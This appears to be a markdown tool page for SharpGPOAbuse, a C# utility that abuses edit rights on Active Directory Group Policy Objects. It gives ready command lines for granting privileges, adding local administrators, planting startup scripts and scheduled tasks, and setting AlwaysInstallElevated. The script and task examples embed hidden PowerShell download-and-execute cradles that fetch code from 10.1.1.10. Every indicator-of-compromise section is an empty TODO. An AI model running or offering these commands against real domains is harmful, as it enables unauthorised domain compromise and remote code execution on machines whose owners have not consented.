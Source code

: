 # SharpGPOAbuse
## Summary

SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO. The original project hasn't been maintained in a couple of years, but [this fork](https://github.com/NukingDragons/SharpGPOAbuse#adding-a-registry-key) extends the functionality. The "Vulnerable GPO" is simply the GPO that you wish to target, this can even be the default domain controller GPO that is automatically created on every DC.

## Prerequisites

In order to abuse GPO's, a configured Active Directory domain must be completely set up, and you must have access to a user that has privileges to modify GPO's. In order to modify a GPO, this utility relies on LDAP and SMB as well. This binary is also a PE executable, it expects to be ran on a Windows machine that's already been joined to the target domain controller.

## Setup

Download the [current release executable](https://github.com/NukingDragons/SharpGPOAbuse/releases), and either reflectively load or upload to a domain-joined Windows machine that you have access to.

## Execution

### Method 1 - AddUserRights

The following are the available options to add rights to a user account via GPO:

```
Options required to add new user rights:
--UserRights
        Set the new rights to add to a user. This option is case sensitive and a comma separeted list must be used.
--UserAccount
        Set the account to add the new rights.
--GPOName
        The name of the vulnerable GPO.
```

This command will add the "SeTakeOwnership" and "SeRemoteInteractiveLogonRight" privileges to the bob.smith user account. 

```
SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 2 - AddLocalAdmin

The following are the available options to add a local admin via GPO:

```
Options required to add a new local admin:
--UserAccount
        Set the name of the account to be added in local admins.
--GPOName
        The name of the vulnerable GPO.
```

The following will create a new local administrator account named "bob.smith":

```
SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 3 - AddUserScript / AddComputerScript

The following are the available options to add a user or computer script via GPO:

```
Options required to add a new user or computer startup script:
--ScriptName
        Set the name of the new startup script.
--ScriptContents
        Set the contents of the new startup script.
--GPOName
        The name of the vulnerable GPO.
```

The following will add a user script, this syntax also works with "--AddComputerScript":

```
SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 4 - AddUserTask / AddComputerTask

The following are the available options to add a user or computer task via GPO:

```
Options required to add a new computer or user immediate task:

--TaskName
        Set the name of the new computer task.
--Author
        Set the author of the new task (use a DA account).
--Command
        Command to execute.
--Arguments
        Arguments passed to the command.
--GPOName
        The name of the vulnerable GPO.

Additional User Task Options:
--FilterEnabled
        Enable Target Filtering for user immediate tasks.
--TargetUsername
        The user to target. The malicious task will run only on the specified user. Should be in the format <DOMAIN>\<USERNAME>
--TargetUserSID
        The targeted user's SID.

Additional Computer Task Options:
--FilterEnabled
        Enable Target Filtering for computer immediate tasks.
--TargetDnsName
        The DNS name of the computer to target. The malicious task will run only on the specified host.
```

The following will add a user task, this syntax also works with "--AddComputerTask":

```
SharpGPOAbuse.exe --AddUserTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO

### Method 5 - AddRegistryKey

The following are the available options to add a registry key via GPO:

```
Options required to set a registry key:
--KeyPath
        The path to the registry key.
--KeyName
        The name of the registry key.
--KeyType
        The type of data to place into the registry key.
--KeyData
        The data to place into the registry key.
--Hive
        The registry hive to affect, can be HKLM or HCU.
--GPOName
        The name of the vulnerable GPO.
```

Currently, only the REG_DWORD key is supported with this tool. Due to restrictions on the GPO, only HKLM and HCU are available as hives.

The following will add a registry key:

```
SharpGPOAbuse.exe --AddRegistryKey --Hive HKLM --KeyPath "Software\Policies\Microsoft\Windows\Installer" --KeyName AlwaysInstallElevated --KeyType REG_DWORD --KeyData 1 --GPOName "Vulnerable GPO"
```

#### Indicators of Compromise

TODO